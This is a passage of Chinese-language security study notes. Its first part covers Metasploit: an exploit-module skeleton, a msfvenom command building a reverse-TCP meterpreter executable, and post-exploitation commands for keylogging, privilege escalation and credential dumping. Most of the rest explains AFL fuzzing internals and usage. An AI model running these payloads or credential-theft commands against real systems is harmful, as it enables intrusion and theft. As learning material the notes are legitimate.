                },
                'Privileged'     => false,
                'DisclosureDate' => "Apr 1 2014",
                'DefaultTarget'  => 0))

                # 注册选项. 
                register_options([
                    OptBool.new('<参数名>', [false, "<描述>", true]), # 后面列表的三个值分别表示是否必选, 描述, 初始值
                ])
            end

            def exploit
                connect # 根据设置的ip地址和端口, 连接到目标服务器
                attack_buf = 'a' * 200 + [target['Ret']].pack('V') + payload.encoded # payload在命令中指定; pack('V')是按小端序
                sock.put(attack_buf)
                handler
                disconnect
                # print_debug('Hello, world')
                # datastore['<参数名>']
            end

        end
        ```
        * `payload.raw`: 获取payload的原始字节
    
* 接口
    * 字符相关
        * `MSF::Exploit#pattern_create(<长度>)`: 生成用于定位的字符串. (实际调用了`Rex::Text.pattern_create`)
    * Rex模块(Ruby Extension): 
        * 其中包含了msf开发中所需要的功能模块
            * 大部分任务的基本库
            * 处理socket, 协议, 文本转换等
            * SSL, SMB, HTTP, XOR, Base64, Unicode
        * `Rex::Assembly::Nasm`
            * `.assemble(assembly, bits = 32)`: 将汇编代码转为机器码
            * `.disassemble(raw, bits = 32)`: 反汇编. 可用`puts`打印该结果, 显示更美观. 

* msfvenom: 整合了msfpayload和msfencode
    * `--list all`: 列出payloads, encoders, nops, platforms, archs, encrypt, formats等所有项的可用选项
    * `-x a.exe`: 以'a.exe'为可执行文件载荷的模板
    * `-b '\x00'`: 指定'\x00'为坏字符(会被编码器消除)
    * `-n <长度>`: 添加nop雪橇
    * `--payload windows/exec CMD=calc.exe 0`: 生成载荷, 'windows/exec'是载荷原型, 后面'CMD=calc.exe'是给参数'CMD'设置值. 0表示直接生成字符串, 可以选'C'等, 得到某一编程语言形式的载荷.

* 后渗透模块
    * `meterpreter`:
        * metasploit的一类载荷, 如`windows/meterpreter/reverse_tcp`
        * 使用
            * 通过`msfvenom`生成一个回连马: `msfvenom -payload windows/meterpreter/meterpreter_reverse_tcp lhost="x.x.x.x" lport=4444 -f exe -o re.exe` (注意设置好回连的地址和端口)
            * 把马`re.exe`放到目标机运行. 
            * `msfconsole`
                * `use exploit/multi/handler`
                * 设置`LHOST`, `LPORT`
                * `run`
        * 命令
            * `shell`: 进入目标机器的cmd. 
            * `screenshot`: 截屏
            * `sysinfo`: 获取系统运行的平台
            * `ps`: 进程列表
            * `migrate <pid>`: 将会话迁移到某进程空间
            * `run post/windows/capture/keylog_recorder`: 运行键盘记录器
            * `use priv`: 运行在特权账号上
            * `execute -f <文件>`: 在目标机器上运行程序
            * `route`: 查看路由
            * `search -d d:\\ -f *.txt`: 在D盘搜索txt文件
            * `download <文件> <本地目录>`: 从目标机上下载文件到攻击机
            * `upload <文件> <目标机目录>`: 向目标机上传文件
            * `portfwd add -l <本机端口> -r <目标ip> -p <目标端口>`: 将目标机端口映射到本机来
            * 列出会话令牌: 
                1. `use incognito`
                2. `list_tokens -u`
            * `impersonate_toke "NT AUTHORITY\SYSTEM"`: 冒用`SYSTEM`的令牌. 
            * `getuid`: 获取当前用户信息
            * `getsystem`: 提权
            * `run windows/gather/credentials/windows_autologin`: 抓取自动登录的账号密码
            * `run post/windows/gather/smart_hashdump`: 抓取自动登录的账号密码
        * 解决cmd乱码: 进入cmd后, 执行`chcp 65001`, 设置终端编码为`utf-8`. 
    * `post/windows/gather/enum_applications`

* 安裝其他gem包: 在`/usr/share/metasploit-framework`下的Gemfile中, 添加`gem '<要安裝的包名>'`, 安装的包如pry, pry-byebug, pwntools等. 

## immuity dbg
* mona插件
    * `!mona jmp -r esp`: 搜索`jmp esp`指令
        * `-m "kernel32.dll"`: 在指定模块中寻找指令

## AFL
* 项目地址: [https://github.com/mirrorer/afl](https://github.com/mirrorer/afl)
* 参考
    * 教程: [https://afl-1.readthedocs.io/en/latest/quick_start.html](https://afl-1.readthedocs.io/en/latest/quick_start.html)
    * [AFL 漏洞挖掘技术漫谈(二）: Fuzz 结果分析和代码覆盖率](https://paper.seebug.org/842)
    * [AFL二三事——源码分析（下篇）](https://xz.aliyun.com/t/10316?time__1311=mq%2BxBDyDuGBAD%2FD0DoY%2BW4j2fR3D8eD&alichlgref=https%3A%2F%2Fxz.aliyun.com%2Ft%2F10315%3Ftime__1311%3Dmq%252BxBDyDuGBDRDBqDTmGIimgGzePx%26alichlgref%3Dhttps%253A%252F%252Fwww.google.com%252F)
    * [基于覆盖率的Fuzzer和AFL](https://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458508973&idx=1&sn=ce081b2f0c86b34a10779cb6f1302ca1&chksm=b18eee2786f96731f910ee6079ae1561f23b1706568441ba3ce5cd16bd7ca0f456aac9932eab&scene=27)
* 描述
    * 一款基于覆盖引导(Coverage-guided)的模糊测试工具. 通过记录输入样本的代码覆盖率, 从而调整输入样本以提高覆盖率, 增加发现漏洞的概率. 
    * 运行流程: 
        1. 从源码编译程序时进行插桩, 以记录代码覆盖率(Code Coverage);
        2. 选择一些输入文件, 作为初始测试集加入输入队列(queue);
        3. 将队列中的文件按一定的策略进行突变;
        4. 如果经过变异文件更新了覆盖范围, 则将其保留添加到队列中;
        5. 上述过程会一直循环进行, 期间触发了crash的文件会被记录下来. 
    * 实现
        * 使用二元组`(branch_src, branch_dst)`来记录`当前基本块 + 前一基本块`的信息, 从而获取目标的执行流程和代码覆盖情况. 
        * fork-server: 
            * 
        * 插桩
            * 在每个基本块开头插入一段代码, 做以下事情: 
                1. 保存寄存器值(rsp, rcx, rdx等)
                2. 调用`__afl_maybe_log`函数
                3. 恢复寄存器值
* 快速示例
    ```sh
        # 插桩编译
        afl-g++ heap.cpp -g -o heap_afl

        mkdir input; cd input
        touch SEED.txt
        echo aaa > SEED.txt	//将SEED作为初始种子写入in文件夹中的SEED文件中

        # 以root执行以下操作(sudo -i)
        # /proc/sys/kernel/core_pattern 其中指定的文件名或管道用于在进程崩溃得到由系统捕获并传来的崩溃信息
        echo core > /proc/sys/kernel/core_pattern

        # CPU调频 https://wiki.archlinux.org/title/CPU_frequency_scaling_(简体中文)
        # performance是运行于最大频率
        cd /sys/devices/system/cpu
        echo performance | tee cpu*/cpufreq/scaling_governor

        # @@表示程序从文件中获取输入, --可能是将目标程序和前面的参数分开来
        afl-fuzz -i input -o output -- ./heap_afl @@
        # 其他参数
        # -f <file>: 表示将文件的内容作为stdin输入
    ```
* 用法
    * fuzzer字典
        * 针对带有语法(使用了格式化数据, 比如图像, 多媒体, 压缩数据, 正则表达式, shell脚本)的程序, 可提供字典, 给定语言关键字, 文件头魔数, 以及其他跟目标数据关联的分词. 
        * 如果不确定用什么字典, 可以先运行一段时间fuzzer, 然后利用`libtokencap`获取捕获的分词. 
    * 并行模式
        * 添加参数`-M <主进程输出目录>`或`-S <从进程输出目录>`. 主进程的策略是确定性检查(deterministic checks), 从进程则是进行随机调整. `-o`则指定同步输出目录.
        * 观察多个进程的状态: `afl-whatsup sync/`
    * fuzz无源码二进制程序(qemu模式)
        * 包括`afl-fuzz`在内各工具添加参数`-Q`即使用qemu模式.
        * 安装: 
            * 要先安装`libglib2.0-dev`, `libtool-bin`.
            * 运行afl项目下的`qemu_mode/build_qemu_support.sh`. 这个脚本会做以下事情: 
                * 下载qemu源码压缩包; 
                * 检查`libtool`等必要工具是否已安装; 
                * 用diff文件为qemu源码打补丁; 
                * 配置, 编译qemu(需确保已安装**python2**): 
                    ```sh
                        test "$CPU_TARGET" = "" && CPU_TARGET="`uname -m`"
                        test "$CPU_TARGET" = "i686" && CPU_TARGET="i386"

                        CFLAGS="-O3 -ggdb" ./configure --disable-system \
                            --enable-linux-user --disable-gtk --disable-sdl --disable-vnc \
                            --target-list="${CPU_TARGET}-linux-user" --enable-pie --enable-kvm || exit 1
                        
                        # CFLAGS="-O3 -ggdb" ./configure --disable-system --enable-linux-user  --disable-gtk --disable-sdl --disable-vnc --target-list="${CPU_TARGET}-linux-user" --enable-pie --enable-kvm 

                        make || exit 1
                    ```
                    * 由上面的代码可知:
                        * 默认目标架构为本机的cpu架构. (可手动修改`CPU_TARGET`环境变量, 以编译针对不同架构的qemu)
                        * 编译的是用户模式的qemu. 
                        * 也可加其他参数, 比如`--static`, 以生成静态链接的qemu. 
                * 将生成的用户模式qemu移到上上层, 更名为`afl-qemu-trace`; 

            * 编译出现问题: 
                ```
                    util/memfd.c:40:12: error: static declaration of ‘memfd_create’ follows non-static declaration
                    static int memfd_create(const char *name, unsigned int flags)
                                ^~~~~~~~~~~~
                ```
                * `util/memfd.c`这个文件中定义的`memfd_create`函数和其他文件(`/usr/include/x86_64-linux-gnu/bits/mman-shared.h`)的定义冲突了. 需去掉函数声明中的`static`关键字. (按[AFL-qemu安装问题](https://blog.csdn.net/liyihao17/article/details/109981662)解决问题).
        * 指定`AFL_PATH`: `export AFL_PATH=/home/bohan/res/afl/`. 

* 其他工具
    * `afl-whatsup`: 依靠读afl-fuzz输出目录中的fuzzer_stats文件来显示状态. 
    * `afl-gotcpu`: 获取CPU状态. 
    * `afl-showmap`: 用于对单个用例进行执行路径跟踪. 

### 测试用例
* **原则**
    * 文件不要太大, 最好小于1kb
    * 不要用太多测试用例, 除非这些用例相互有功能性差异.

### 源码分析
* 参考
    * [基于qemu和unicorn的Fuzz技术分析](https://xz.aliyun.com/t/6457?time__1311=n4%2BxnD0DRDB73SxBqooGkYY%2B4Qwx0KGC0ieD&alichlgref=https%3A%2F%2Fwww.google.com%2F)
* qemu模式
    * `build_qemu_support.sh`: 下载qemu源码, 并编译与本系统相同架构的用户模式
        ```sh
            # CFLAGS="-O3 -ggdb" ./configure --disable-system --enable-linux-user --disable-gtk --disable-sdl --disable-vnc --target-list="mipsel-linux-user" --enable-pie --enable-kvm --enable-debug 
            CFLAGS="-O3 -ggdb" ./configure --disable-system --enable-linux-user --disable-gtk --disable-sdl --disable-vnc --target-list="${CPU_TARGET}-linux-user" --enable-pie --enable-kvm
        ```
    * 打补丁: 
        * `accel/tcg/cpu-exec.c`: 
            * 引入头文件`../patches/afl-qemu-cpu-inl.h`
            * 在`cpu_tb_exec(CPUState *cpu, TranslationBlock *itb)`函数最开始处加了宏`AFL_QEMU_CPU_SNIPPET2`, 执行`afl_maybe_log`函数, 记录覆盖率. 
            * 在`tb_find`函数中: 在调用`tb_gen_code(cpu, pc, cs_base, flags, 0)`对基本块进行翻译生成`tb`后, 使用宏`AFL_QEMU_CPU_SNIPPET1`, 向管道写入信息(`pc`, `cs_base`, `flags`), 通知fork_server
        * `linux-user/elfload.c`: 
            * `extern abi_ulong afl_entry_point, afl_start_code, afl_end_code;`
            * 在`load_elf_image`函数中, 赋值: `afl_entry_point = info->entry;` (`info`指向`image_info`结构体, 保存elf内存镜像的具体信息. `entry`即保存程序入口点)
        * `linux-user/syscall.c`: 
            * 在`do_syscall`函数中, 在对`TARGET_NR_tgkill`的处理中, 原来的操作是`safe_tgkill((int)arg1, (int)arg2, target_to_host_signal(arg3))`, 三个参数分别对应`tid`, `tgid`, `sig`, 现添加判断: 
                ```cpp
                    if(afl_forksrv_pid && afl_forksrv_pid == pid && sig == SIGABRT)
                        pid = tgid = getpid();
                ```
        * 新增的文件`afl-qemu-cpu-inl.h`: 
            ```cpp
                #define AFL_QEMU_CPU_SNIPPET1 
                    // 执行: 
                    //  afl_request_tsl(pc, cs_base, flags); 
                #define AFL_QEMU_CPU_SNIPPET2 
                    // 执行:  
                    //  if (itb->pc == afl_entry_point) {
                        //  afl_setup(); 
                        //  afl_forkserver(cpu); 
                    //  } 
                    //  afl_maybe_log(itb->pc); 
                #define TSL_FD (FORKSRV_FD - 1) // 这个管道用来在子进程和fork服务器之间传递`需要翻译`的信息

                // 设置SHM区域; 根据环境变量, 初始化一些全局变量
                static void afl_setup(void); 

                // 创建管道(存于`t_fd[0]`和`t_fd[1]`, 后者通过`dup2`赋予`TSL_FD`), 与子进程通信, 以获取翻译的指令(父进程读`t_fd[0]`, 子进程写`TSL_FD`)
                // 循环: 
                //  fork一个子进程: 关闭管道`FORKSRV_FD`, `FORKSRV_FD + 1`, `t_fd[0]`, 然后返回
                //  父进程: 
                //    afl_wait_tsl(cpu, t_fd[0]): 确保哈希表中有tb块(没有则生成之)
                static void afl_forkserver(CPUState *cpu); 

                // 记录每条执行路径(基本块A -> 基本块B)的覆盖率
                // `cur_loc`是一个随机数
                static inline void afl_maybe_log(abi_ulong cur_loc); 

                // 当该函数被调用时, 将会通知父进程对操作进行镜像, 这样下次fork时才有缓存的拷贝(通知的方式是把这三个参数写入`TSL_FD`管道)
                static void afl_request_tsl(target_ulong pc, target_ulong cb, uint64_t flags); 

                // 循环: 
                //  读管道`fd`, 获取`t`(包含`pc`, `cb`, `flags`)
                //  `tb = tb_htable_lookup(cpu, t.pc, t.cs_base, t.flags);` 在哈希表中找tb
                //  `tb_gen_code(cpu, t.pc, t.cs_base, t.flags, 0);` 上面找不到tb时, 调用此函数, 将TCG代码转换成主机代码. 
                static void afl_wait_tsl(CPUState *cpu, int fd); 

            ```
* `afl-as.c`: 对GNU的`as`程序的封装. 在使用了`afl-gcc`及`afl-clang`时, 会执行此程序. 
    * 注: 当目标程序极为复杂时, 最好将环境变量`AFL_INST_RATIO`设置为小于100的值, 以减少对所有已知分支进行插桩的可能性. 
    * `static void add_instrumentation(void)`: 处理输入文件`input_file`, 在所有必要位置插桩. 
        * 
* `afl-as.h`
    * 变量: 
        * `__afl_area_ptr`: 共享内存地址
        * `__afl_prev_loc`: 上一个插桩位置(id为R(100)随机数的值)
        * `__afl_fork_pid`: 由fork产生的子进程的pid
        * `__afl_temp`: 缓冲区
        * `__afl_setup_failure`: 标志位，如果置位则直接退出
        * `__afl_global_area_ptr`: 全局指针
    * 函数/过程:
        * `__afl_maybe_log`: 判断`__afl_area_ptr`是否为0, 是则跳转到`__afl_setup`
* `afl-gcc.c`: 
    * 要点
        * 需要知道`afl-as`程序的路径(默认为`/usr/local/lib/afl/`)(可以设置环境变量`AFL_PATH`); 
        * 可以在使用`configure`程序时指定`CC`或`CXX`来使用`afl-gcc`或`afl-clang`. 
    * 
        ```cpp
            // 构建参数列表, 放到`cc_params`: 
            //      [0]: "clang++"/"clang"/"g++"/"gcj"/"gcc"
            //      剩余: 
            //          -B<as_path>
            //          若使用clang, 加上: -no-integrated-as
            //          根据环境变量加参: 
            //              AFL_HARDEN: -fstack-protector-all
            //                  若未用fotify: -D_FORTIFY_SOURCE=2
            //              AFL_USE_ASAN: -U_FORTIFY_SOURCE -fsanitize=address
            //              AFL_USE_MSAN: -U_FORTIFY_SOURCE -fsanitize=memory
            //              AFL_DONT_OPTIMIZE: -O3 -funroll-loops -D__AFL_COMPILER=1 -DFUZZING_BUILD_MODE_UNSAFE_FOR_PRODUCTION=1
            //              AFL_NO_BUILTIN: -fno-builtin-strcmp -fno-builtin-strncmp -fno-builtin-strcasecmp -fno-builtin-strncasecmp -fno-builtin-memcmp -fno-builtin-strstr -fno-builtin-strcasestr
            static void edit_params(u32 argc, char** argv); 

            main () {
                find_as(argv[0]); // 获取as程序的路径, 由`as_path`指向
                edit_params(argc, argv); // 构造exec函数用的参数, 放在`cc_params`数组
                execvp(cc_params[0], (char**)cc_params); // 执行编译
            }
        ```
* `afl-fuzz.c`
    * 全局变量
        ```cpp
            static const u8 count_class_lookup8[256] = {
                [0]           = 0,
                [1]           = 1,
                [2]           = 2,
                [3]           = 4,
                [4 ... 7]     = 8,
                [8 ... 15]    = 16,
                [16 ... 31]   = 32,
                [32 ... 127]  = 64,
                [128 ... 255] = 128
            };

            static u16 count_class_lookup16[65536];
        ```
    * 函数
        ```cpp
            static u64 get_cur_time(void) { }
            static u64 get_cur_time_us(void) { }
            static inline u32 UR(u32 limit) { }
            static void shuffle_ptrs(void** ptrs, u32 cnt) { }
            static void bind_to_free_cpu(void) { }
            static void locate_diffs(u8* ptr1, u8* ptr2, u32 len, s32* first, s32* last) { }
            static u8* DI(u64 val) { }
            static u8* DF(double val) { }
            static u8* DMS(u64 val) { }
            static u8* DTD(u64 cur_ms, u64 event_ms) { }
            static void mark_as_det_done(struct queue_entry* q) { }
            static void mark_as_variable(struct queue_entry* q) { }
            static void mark_as_redundant(struct queue_entry* q, u8 state) { }
            static void add_to_queue(u8* fname, u32 len, u8 passed_det) { }
            EXP_ST void destroy_queue(void) { }
            EXP_ST void write_bitmap(void) { }
            EXP_ST void read_bitmap(u8* fname) { }
            static inline u8 has_new_bits(u8* virgin_map) { }
            static u32 count_bits(u8* mem) { }
            static u32 count_bytes(u8* mem) { }
            static u32 count_non_255_bytes(u8* mem) { }
            static void simplify_trace(u64* mem) { }
            static void simplify_trace(u32* mem) { }
            EXP_ST void init_count_class16(void); // 用`count_class_lookup8`数组填充`count_class_lookup16`, 共填充256个`count_class_lookup8`数组
            static inline void classify_counts(u64* mem) { 
                // 遍历mem数组(如`trace_bits`), 使用`count_class_lookup16`数组对每个元素按`2, 4, 8, 16, ...`进行规整
            }
            static void remove_shm(void) { }
            static void minimize_bits(u8* dst, u8* src) { }
            static void update_bitmap_score(struct queue_entry* q) { }
            static void cull_queue(void) { }
            EXP_ST void setup_shm(void) {
                // `shmget`创建共享内存大小为65536个字节
                // 用`setenv`函数设置环境变量`SHM_ENV_VAR`, 保存共享内存的id(`shm_id`)
                // `shmat(shm_id)`获取共享内存的地址, 存放在`trace_bits`变量中
            }
            static void setup_post(void) { }
            static void read_testcases(void) { }
            static int compare_extras_len(const void* p1, const void* p2) { }
            static int compare_extras_use_d(const void* p1, const void* p2) { }
            static void load_extras_file(u8* fname, u32* min_len, u32* max_len, u32 dict_level) { }
            static void load_extras(u8* dir) { }
            static inline u8 memcmp_nocase(u8* m1, u8* m2, u32 len) { }
            static void maybe_add_auto(u8* mem, u32 len) { }
            static void save_auto(void) { }
            static void load_auto(void) { }
            static void destroy_extras(void) { }
            EXP_ST void init_forkserver(char** argv) { }
            
            // 运行目标程序, 监视超时, 返回状态信息. 目标程序会更新`trace_bits`数组
            static u8 run_target(char** argv, u32 timeout) {
                if (dumb_mode == 1 || no_forkserver) { /**/ }
                else {
                    // 把4字节的prev_timed_out写入管道fsrv_ctl_fd (即通知fork server开始运行子进程)
                    // 从管道fsrv_st_fd读取child_pid (即从fork server获取新的子进程的pid)

                    // 使用setitimer函数设置超时. (超时将会触发SIGALRM信号, 由handle_timeout函数处理(将会杀掉子进程))
                    // 从管道fsrv_st_fd读取4字节的状态值(status). 
                    // getitimer获取计时器剩余时间, 然后用timeout减去该时间, 得到进程运行时间exec_ms
                    // 用setitimer清除计时器

                    __asm__ volatile("" ::: "memory") // 内存屏障, 告诉编译器不要越过该屏障优化内存的访问顺序
                    classify_counts((u64*)trace_bits); // 对统计的每个执行次数按`2, 4, 8, 16, ...`进行规整, 比如4~7归为8
                    
                    // 满足以下条件之一, 则返回FAULT_CRASH: 
                        // 超时, 且得到的status为SIGKILL
                        // 使用了asan, 并且得到进程的status为MSAN_ERROR(说明有内存错误)
                    
                    // 更新耗时最长的运行时间slowest_exec_ms
                }
            }

            static void write_to_testcase(void* mem, u32 len) { }
            static void write_with_gap(void* mem, u32 len, u32 skip_at, u32 skip_len) { }
            static void show_stats(void); { }
            static u8 calibrate_case(char** argv, struct queue_entry* q, u8* use_mem, u32 handicap, u8 from_queue) { }
            static void check_map_coverage(void) { }
            static void perform_dry_run(char** argv) { }
            static void link_or_copy(u8* old_path, u8* new_path) { }
            static void nuke_resume_dir(void); { }
            static void pivot_inputs(void) { }
            static u8* describe_op(u8 hnb) { }
            static void write_crash_readme(void) { }
            static u8 save_if_interesting(char** argv, void* mem, u32 len, u8 fault) { }
            static u32 find_start_position(void) { }
            static void find_timeout(void) { }
            static void write_stats_file(double bitmap_cvg, double stability, double eps) { }
            static void maybe_update_plot_file(double bitmap_cvg, double eps) { }
            static u8 delete_files(u8* path, u8* prefix) { }
            static double get_runnable_processes(void) { }
            static void nuke_resume_dir(void) { }
            static void maybe_delete_out_dir(void) { }
            static void check_term_size(void); { }
            static void show_stats(void) { }
            static void show_init_stats(void) { }
            static u32 next_p2(u32 val) { }
            static u8 trim_case(char** argv, struct queue_entry* q, u8* in_buf) { }
            EXP_ST u8 common_fuzz_stuff(char** argv, u8* out_buf, u32 len) { }
            static u32 choose_block_len(u32 limit) { }
            static u32 calculate_score(struct queue_entry* q) { }
            static u8 could_be_bitflip(u32 xor_val) { }
            static u8 could_be_arith(u32 old_val, u32 new_val, u8 blen) { }
            static u8 could_be_interest(u32 old_val, u32 new_val, u8 blen, u8 check_le) { }
            static u8 fuzz_one(char** argv) { }
            static void sync_fuzzers(char** argv) { }
            static void handle_stop_sig(int sig) { }
            static void handle_skipreq(int sig) { }
            static void handle_timeout(int sig) { }
            EXP_ST void check_binary(u8* fname) { }
            static void fix_up_banner(u8* name) { }
            static void check_if_tty(void) { }
            static void check_term_size(void) { }
            static void usage(u8* argv0) { }
            EXP_ST void setup_dirs_fds(void) { }
            EXP_ST void setup_stdio_file(void) { }
            static void check_crash_handling(void) { }
            static void check_cpu_governor(void) { }
            static void get_core_count(void) { }
            static void fix_up_sync(void) { }
            static void handle_resize(int sig) { }
            static void check_asan_opts(void) { }
            EXP_ST void detect_file_args(char** argv) { }
            EXP_ST void setup_signal_handlers(void) { }
            static char** get_qemu_argv(u8* own_loc, char** argv, int argc) { }
            static void save_cmdline(u32 argc, char** argv) { }
        ```

### 白皮书笔记
* 覆盖测量
    * afl在程序流分支节点处注入的代码用于粗略估计`分支覆盖率`, 代码逻辑大致如下:
        ```cpp
            cur_location = <COMPILE_TIME_RANDOM>; // 用一个随机数标记当前基本块. 可以让下面异或的输出均匀分布
            shared_mem[cur_location ^ prev_location]++; 
            prev_location = cur_location >> 1; // 这一步一是为了保留元组的方向性(不然无法区分`A ^ B`和`B ^ A`, 也就没法区分`A -> B`和`B -> A`); 二是为了保持小循环的独一性(否则, `A ^ A`和`B ^ B`显然都是0(环形路径)). 
        ```

        

    * `shared_mem`是SHM共享内存中的一个64KB大小的区域, 这个区域会传给插桩的二进制程序. 在`output map`中的每个被设置的字节可被记为元组`(branch_src, branch_dst)`. 
    * 用分支覆盖相比块覆盖的好处: 能辨别如下两条执行踪迹的细微差别: 
        > A -> B -> C -> D -> E (元组: AB, BC, CD, DE)
        > A -> B -> D -> C -> E (元组: AB, BD, DC, CE)
* 检测新行为
    * 当输入的数据导致新的执行踪迹出现时, 这个输入数据会被保留下来, 后续使用. 没有导致产生新执行踪迹的输入数据会被丢弃. 
* 对输入队列进行演化
    * 遗传算法并没有比盲fuzz策略拥有更好的性能. 
* 语料库精简
    * AFL定期使用一个快速的算法选一个较小的测试用例子集, 这个子集满足: 
        1. 仍然覆盖已出现的所有元组. 
        2. 其中的元组包含最有用的特征. 
    * 该算法给每个队列入口分配了一个分数(根据**执行的延迟**和**文件的大小**), 然后为每个元组选择分数最低的候选. 
    * 接下来逐一对每个元组执行下列操作: 
        1. 找到下一个还未出现在临时工作集的元组; 
        2. 为该元组找到最佳队列; 
        3. 在所有出现于临时工作集的元组中, 找出出现在执行踪迹的元组并注册. 
        4. 若工作集中仍有元组, 回到第1步. 
* 裁剪输入文件
    * 文件太大不仅会导致目标运行变慢, 还会降低输入数据变异成为重要格式的可能性. 
    * `afl-min`: 该工具首先自动选择操作模式. 如果初始输入数据能造成目标程序崩溃, 则`afl-min`会运行于非插桩模式; 否则运行于插桩模式, 并在保持相同执行路径的同时作改动. 最小化算法如下: 
        1. 尝试以大步长去清零大块数据. 
        2. 采用递减的块大小和步长进行块删除处理, 类似于二分搜索的方式. 
        3. 字母规范化: 计算独特字符数量, 并尝试批量替换为0. 
        4. 对所有非零字节进行规范化(归一化). 
    * `afl-min`并不是直接用字节0, 而是用字符'0'作零替换. 这样减小了干扰文本解析的可能性, 因此更有可能成功地最小化文本文件. 
* fuzz策略
    * afl采取的决定性策略(deterministic strategies): 
        * 采用不同长度和步长的顺序位翻转(Sequential bit flips)
        * 顺序加减小整数
        * 顺序插入特殊整数(0, 1, INT_MAX, etc)
    * 非决定性策略: 
        * 堆叠位翻转(stacked bit flips)
        * 插入
        * 删除
        * 算术运算
        * 拼接(splice)不同测试用例
* 构建字典
    * 当基本的语法分词完全随机组合时, 插桩和队列的进化算法在插桩模式下会提供能区分无意义的变形数据和可以导致新行为的变形数据的反馈. 
    * 字典能让fuzzer快速重建JavaScript, SQL 或 XML 等冗长复杂语言的语法. 
    * AFL还允许fuzzer自动隔离输入文件中的语法分词. 为了做到这一点, AFL查找一些会在翻转后导致执行路径有一致变化的字节. 
    * fuzzer依靠这一信息来构建紧凑的"自动字典". 之后其他模糊测试策略会结合使用此自动字典. 
* 崩溃去重(`de-duping`)
    * 一个崩溃情形如果满足以下条件之一, 则认为崩溃具有唯一性: 
        * 崩溃跟踪中包含了一个在之前的崩溃中都没有出现过的元组. 
        * 崩溃跟踪中缺少了一个在之前的崩溃跟踪中一直存在的元组. 
* 崩溃调查
    * 为了探索崩溃的可利用性, afl提供了一种崩溃探索模式: 已知故障的测试用例的fuzz方式类似于fuzzer的正常操作, 约束条件是任何未能导致崩溃的变异用例都会被丢弃. 
    * 利用插桩的反馈来探索崩溃程序的状态, 以让崩溃的条件更清晰; 然后隔离新找到的输入数据, 供人工审查. 
    * 关于崩溃, 与正常的输入队列数据不同的是, 其输入数据不会被裁剪, 以便与父数据对比. `afl-tmin`工具会对它们作缩减. 
    * 详见: http://lcamtuf.blogspot.com/2014/11/afl-fuzz-crash-exploration-mode.html
* `fork-server`
    * `execve`, 链接以及libc库的加载都只进行一次. 之后通过写时复制机制从旧进程的镜像创建新进程. 
    * 延迟(`deferred`)模式: 
        * 跳过较大的, 用户选择的初始化代码块. 
        * 只需对目标程序进行适度修改. 
        * 对于某些目标程序, 可以产生 10 倍以上的性能提升. 
    * 延迟(`deferred`)模式: 
        * 使用单个进程尝试多个输入, 从而大大限制了重复调用`fork`的开销. 
        * 需对目标程序进行一些修改. 
        * 能将快速目标的性能提高 5 倍以上. 
    * 详见: http://lcamtuf.blogspot.com/2014/10/fuzzing-binaries-without-execve.html
* 并行化
    * 需定期检查其他cpu内核或远程机器上独立运行的实例所产生的队列, 然后有选择地挑选其中一些测试用例, 这些用例可产生新行为. 
    * 例子: 对使用共用数据格式的不同解析器, 进行同步测试. 
    * 参阅`parallel_fuzzing.txt`
* 纯二进制程序插桩
    * 借助用户模式qemu. 
    
## AFL++
* 项目地址: [https://github.com/AFLplusplus/AFLplusplus](https://github.com/AFLplusplus/AFLplusplus)
* 安装:

    ```sh
        docker pull aflplusplus/aflplusplus
        docker run -ti -v /location/of/your/target:/src aflplusplus/aflplusplus
    ```

## 其他插桩和fuzz工具或框架
* peafl64
    * https://github.com/Sentinel-One/peafl64
    * 要点: 
        * 针对windows x64
* E9AFL
    * https://github.com/GJDuck/e9afl
    * 要点: 
        * 针对 x86_64 Linux;
        * 二进制静态插桩
* afl-dyninst
    * https://github.com/Cisco-Talos/moflow/tree/master/afl-dyninst
    * 要点: 
        * AFL + Dyninst, 需要先安装`Dyninst`
        * 二进制静态插桩, 为每个基本块插入一个回调函数, 并在`_init`函数或指定入口点插入初始化的回调函数. 
    * 用法
        ```sh
        ./afl-dyninst -i <binary> -o <binary> -l <library> -e <address> -s <number>
             -i: Input binary 
             -o: Output binary
             -l: Library to instrument (repeat for more than one)
             -e: Entry point address to patch (required for stripped binaries)
             -r: Runtime library to instrument (path to, repeat for more than one)
             -s: Number of basic blocks to skip
             -v: Verbose output
        ```
* bcov
    * https://github.com/abenkhadra/bcov
    * 要点: 
        * 针对 x86_64 ELF;
        * 
